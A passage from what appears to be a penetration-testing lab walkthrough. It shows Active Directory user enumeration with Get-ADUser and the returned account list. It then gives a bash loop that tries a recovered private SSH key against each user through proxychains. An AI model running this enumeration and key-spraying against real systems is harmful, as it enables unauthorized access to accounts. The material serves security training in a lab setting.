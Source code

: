 ```shell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName
```

```shell-session
PS C:\Users\ambioris> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName

Administrator 
Guest        
krbtgt       
Redpostmanrd 
Snowfreeze   
Lich
Crismerlin   
Helen
Tiltmanx
Maria
Jhomil
Thael
Leonvqz
Frewdy
Josias
Thesuperteacher
Ambioris
Filiplain
Xracer
```

Before engaging in brute-forcing the user that the key belongs to, students will change permissions of the `unknown_id_rsa` private key they previously downloaded:

Code: shell

```shell
chmod 600 unkown_id_rsa
```

```shell-session
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ chmod 600 unknown_id_rsa
```

Students will either test each user one by one or write a similar bash script to automate the user account tests:

Code: bash

```bash
while read -r user; do
		echo "Trying user: $user"
		proxychains ssh -o BatchMode=yes -o StrictHostKeyChecking=no -i unknown_id_rsa $user@172.20.0.52 -p 2299 "exit" 2>/dev/null
		if [ $? -eq 0 ]; then
				echo "Login successful for user: $user"
				break
		fi
done < users.txt
```
